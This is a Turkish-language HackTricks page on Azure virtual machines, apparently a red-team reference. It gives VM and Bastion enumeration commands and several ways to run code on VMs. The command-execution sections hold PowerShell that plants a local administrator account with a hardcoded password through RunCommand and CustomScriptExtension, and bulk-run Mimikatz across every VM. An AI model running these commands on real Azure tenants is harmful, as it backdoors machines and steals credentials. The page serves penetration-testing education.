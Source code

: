 # Az - Sanal Makineler ve Ağ

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

## Temel bilgiler

[Belgelerden alıntı:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure sanal makineler, Azure'ın sunduğu birkaç türden biridir [ihtiyaca göre ölçeklenebilir hesaplama kaynakları](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree). Genellikle, diğer seçeneklerin sunmadığı hesaplama ortamı üzerinde daha fazla kontrol gerektiğinde sanal makine seçersiniz. Bu makale, bir sanal makine oluşturmadan önce dikkate almanız gereken bilgileri, nasıl oluşturulacağını ve nasıl yönetileceğini size verir.

## Azure Ağ Bilgileri

Azure ağları **farklı varlıklar ve yapılandırma yöntemleri içerir.** Farklı Azure ağ varlıklarının kısa **açıklamalarını,** **örneklerini** ve **numaralandırma** komutlarını aşağıdaki bağlantıda bulabilirsiniz:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion**, Azure portalı üzerinden SSL aracılığıyla güvenli, tamamen yönetilen bir RDP (Uzak Masaüstü Protokolü) ve SSH (Güvenli Kabuk) erişim çözümü sunar. Azure Sanal Ağı içinde entegre edilmiştir ve RDP ve SSH bağlantılarını özel IP'ler kullanarak VM'lere sağlar, halka açık IP'lerin gereksiz hale gelmesini sağlar. Bu, geliştiricilerin ve IT personelinin tarayıcılarını kullanarak Azure portalından VM'lere güvenli bir şekilde erişmelerini sağlar, geliştirme ve test ortamları için süreci basitleştirir.

Aboneliğinizdeki tüm Azure Bastion Ana Bilgisayarlarını listelemek için aşağıdaki komutu kullanabilirsiniz:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM Numaralandırma
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Bir VM'de komut çalıştırın**

### **VM'de AAD Girişi**

AzureAD üzerinden kimlik doğrulaması yapılmış kullanıcılara erişime izin vermek mümkündür. Örneğin bir **linux VM**'ye erişmeye çalışırken: `ssh kullanıcıadı@azure-corp.com@1.1.1.1` (giriş yapmaya çalışırken kullanılan azurecorp ile **e-postayı kullanmak önemlidir**) gibi bir hata alabilirsiniz:
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Sadece **bu talimatları takip edin** [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) adresine gidin ve kodu belirtin, kimlik bilgileri olarak e-posta ve şifreyi kullanın ve SSH üzerinden bağlantı kurabileceksiniz (eğer bu kullanıcı yeterli izne sahipse: `Sanal Makine Yönetici Girişi` veya `Sanal Makine Kullanıcı Girişi` rolü).

### **Komut Çalıştır**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Özel Komut Uzantısını Çalıştırın**

Azure sanal makine (VM) uzantıları, **Azure VM'lerinde** sonrasında yapılandırma ve otomasyon **görevleri** sağlayan **küçük uygulamalar**dır. Örneğin, bir sanal makine yazılım kurulumu, antivirüs koruması veya içinde bir komut dosyası çalıştırma yeteneği gerektiriyorsa, bir VM uzantısı kullanabilirsiniz.

Bu nedenle, yazma erişiminiz varsa keyfi kodu yürütebilirsiniz:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC), Ansible'a benzer şekilde kullanılan bir PowerShell aracıdır ve bir ana bilgisayarı kod aracılığıyla yapılandırmak için kullanılır. DSC, belirli yapılandırma dosyalarının yüklenmesine izin veren Azure ile entegre olur. Bu dosyalar katı bir sözdizimine uymalıdır. Özellikle, Azure'daki DSC uzantısı, belirli biçimlendirme kriterlerini karşılayan dosyalardan komutları yürütebilir, hatta sözdizimi DSC standartlarına uygun değilse bile, sağlanan şekilde gösterildiği gibi.

Bu komutların yürütülmesi, Az PowerShell'deki [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) işlevi tarafından kolaylaştırılır. Gereksinimler arasında tanımlı bir işlev içeren bir **.PS1** dosyası ve dosyanın bir **.zip** dosyasına sıkıştırılması bulunur. DSC için sözdizimi doğru olmasa bile, kod hala yürütülecektir. Ancak, uzantı yürütme durumunu "başarısızlık" olarak işaretleyecek ve komuttan gelen çıktı görünmeyecektir çünkü durum başarısızlık mesajı tarafından üzerine yazılacaktır.

### VM Uygulama Tanımları

VM Uygulama Tanımları, sürümlü uygulamaların Azure VM'ye tekrarlanabilir bir şekilde dağıtılmasına olanak tanır. Bu kaynak, uygulamaların VM'ler arasında dağıtılmasını ve güncellenmesini destekler. Bunun kurulması için **`New-AzGalleryApplication`** ve **`New-AzGalleryApplicationVersion`** gibi komutları içeren adımlar gereklidir Az PowerShell'de.

Bu yöntemle uygulamaların veya komutların yürütülmesi, uygulama bir VM'ye uygulandığında otomatik olarak yüklenen **"VMAppExtension"** ile gerçekleştirilir. Uzantı, belirtilen URI'den dosyayı alır ve uygulama adıyla, uzantısız olarak adlandırır. Dosyayı doğru şekilde yürütmek için REST API çağrısındaki "ManageActions" alanının dosyayı uygun uzantıyla yeniden adlandırmak için yapılandırılması gerekir. Bu yöntemin kurulumu tamamlandığında, sağlanan şekilde gösterildiği gibi bir yapıya benzeyecektir.

Ancak, bu yürütme yöntemi oldukça yavaş olup, bir uygulamanın veya komutun yürütülmesi yaklaşık 3-4 dakika sürer. Bu sürece ilişkin dosyalar, uygulama kopyası için (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\`) ve yürütme durumu için (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`) belirli dizinlerde saklanır.

Her iki teknik de Azure ortamlarında komutların yürütülmesi ve uygulamaların dağıtılması için benzersiz yöntemler sunar, her birinin kendi gereksinimleri, adımları ve dikkate alınması gerekenleri vardır.

### Azure'daki Hybrid Worker Groups (HWG'ler)

[**Hybrid Worker Groups (HWG'ler)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker), bir Automation Account'ta yapılandırılmış Runbook'ların, belirlenmiş HWG'nin bir parçası olan bir Azure Sanal Makinesi (VM) üzerinde yürütülmesine olanak tanıyan bir özelliktir. Bu yürütme, VM üzerine yüklenen bir uzantı aracılığıyla gerçekleştirilir ve Runbook kodunu VM'ye dağıtır. Bu sürecin önemli bir yönü, gerçek kimlik bilgilerinin yürütmede bir faktör olmamasıdır çünkü kod, özellikle **SYSTEM** veya root olarak yükseltilmiş ayrıcalıklarla çalışır, sağlanan şekilde gösterildiği gibi.

Windows 10 VM'lerini kullananlar için önemli bir detay, Runbook için PowerShell sürümünü belirtme gerekliliğidir. Runbook'un PowerShell Sürümünün 7.1 yerine 5.1 olarak ayarlanması gerekmektedir. Bu gereklilik, PowerShell 7.1'in bu VM'lerde varsayılan olarak yüklü olmamasından kaynaklanmaktadır ve 7.1 sürümü belirtilirse betik yürütmesinde bir başarısızlığa neden olabilir.

Azure'ın bu özelliği, hibrit ortamlarda görevleri otomatikleştirmek ve yönetmek için güçlü bir yöntem sunar, Azure VM'lerinde görevlerin merkezi yönetimi ve yürütülmesine olanak tanır.
